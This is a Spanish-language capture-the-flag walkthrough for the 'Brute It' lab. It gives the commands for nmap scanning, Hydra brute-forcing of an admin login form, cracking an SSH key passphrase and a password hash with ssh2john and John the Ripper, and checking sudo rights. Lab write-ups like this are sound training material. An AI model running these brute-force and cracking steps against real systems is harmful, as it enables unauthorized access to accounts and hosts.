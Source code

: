 # Brute It

## Scanning
```bash
sudo nmap -sS -p- --min-rate 5000 -vvv --open -Pn -n 10.10.106.96 -oG allports
nmap -sC -sV -p 22,80 10.10.106.96 -oN targeted
```
![0712150305.png](0712150305.png)

## 80

![0712160430.png](0712160430.png)

Encontramos un enlace en la ruta `/admin`, donde tenemos un panel de administración.

![0712160449.png](0712160449.png)

Si vemos en el código fuente encontramos el usuario.

![0712170502.png](0712170502.png)

Podemos usar hydra para encontrar la contraseña.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -V 10.10.106.96 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
```

![0712160451.png](0712160451.png)

## User Flag

En la página encontramos una flag y un **rsa private key** para descargar. Nos piden realizar fuerza bruta al rsa así que usamos una funcionalidad en parrot llamada ssh2john.

```bash
python2 /usr/share/john/ssh2john.py id_rsa> rsajohn
```

Con eso podemos usar john the ripper para crackear la contraseña.

![0712170541.png](0712170541.png)

Ahora podremos entrar por ssh (con el usuario john)

```bash
sudo ssh john@10.10.106.96 -i id_rsa
```

![0712170552.png](0712170552.png)

## Escala de privilegios

Buscamos si tenemos algún permiso como sudo.

```bash
sudo -l
```

![0712170522.png](0712170522.png)

Ahora con el hash lo guardamos en un archivo en nuestra computadora y usamos john para crackear la contraseña.

```bash
john password --wordlist=/usr/share/wordlists/rockyou.txt
```

![0712170554.png](0712170554.png)

Lo probamos en la consola del otro lado.

![0712170524.png](0712170524.png)

